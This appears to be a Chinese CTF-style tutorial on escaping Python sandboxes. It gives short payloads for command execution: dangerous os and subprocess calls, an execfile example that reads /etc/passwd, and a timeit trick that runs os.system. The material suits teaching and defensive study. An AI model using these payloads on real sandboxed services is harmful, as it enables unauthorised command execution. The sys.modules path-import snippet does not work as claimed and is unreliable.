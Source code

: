 ```yaml
---
typora-root-url: ../../../docs
---
```


# Python沙盒
所谓的 Python 沙盒，即以一定的方法模拟Python终端，实现用户对 Python 的使用。

# Python沙箱逃逸的一些方法
我们通常所说的 Python 沙箱逃逸就是绕过模拟的 Python 终端，最终实现命令执行。
## 危险函数的使用
在 Python 的内建函数中，有一些函数可以帮助我们实现任意命令执行：
```
os.system() os.popen()
commands.getstatusoutput() commands.getoutput()
commands.getstatus()
subprocess.call(command, shell=True) subprocess.Popen(command, shell=True)
pty.spawn()
```
在 Python 中导入模块的方法通常有三种(xxx为模块名称）)：
1. import xxx
2. from xxx import *
3. __import__('xxx')     
我们可以通过上述的导入方法，导入相关模块并使用上述的函数实现命令执行。
除此之外，我们也可以**通过路径引入模块**：
如在 linux 系统中 Python 的 os 模块的路径一般都是在 /usr/lib/python2.7/os.py ，当知道路径的时候，我们就可以通过如下的操作导入模块，然后进一步使用相关函数。
```py
>>> import sys
>>> sys.modules['os']='/usr/lib/python2.7/os.py'
>>> import os
>>>
```
**其他的危险函数举例**
如 **execfile** 文件执行
```py
>>> execfile('/usr/lib/python2.7/os.py')
>>> system('cat /etc/passwd')
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
>>> getcwd()
'/usr/lib/python2.7'
```
**timeit**
```py
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

